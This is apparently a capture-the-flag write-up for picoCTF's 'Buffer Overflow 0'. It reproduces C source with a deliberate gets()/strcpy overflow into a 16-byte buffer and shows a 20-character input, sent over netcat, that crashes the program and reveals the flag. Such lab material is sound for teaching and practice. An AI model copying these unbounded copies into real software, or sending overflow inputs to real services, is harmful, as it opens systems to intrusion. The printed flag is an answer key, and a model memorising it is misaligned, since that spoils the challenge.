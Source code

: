 # Buffer Overflow 0

We are given a vuln and a vuln.c.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

The important part here is that we can print the flag out if we trigger a segmentation fault. How can we cause segmentation fault, well in the `vuln` function we see a 100 length string is being copied to a 16 lenght string. So we can just input a 20 length string to cause a segmentation fault.

```
└─$ nc saturn.picoctf.net 65443
Input: AAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```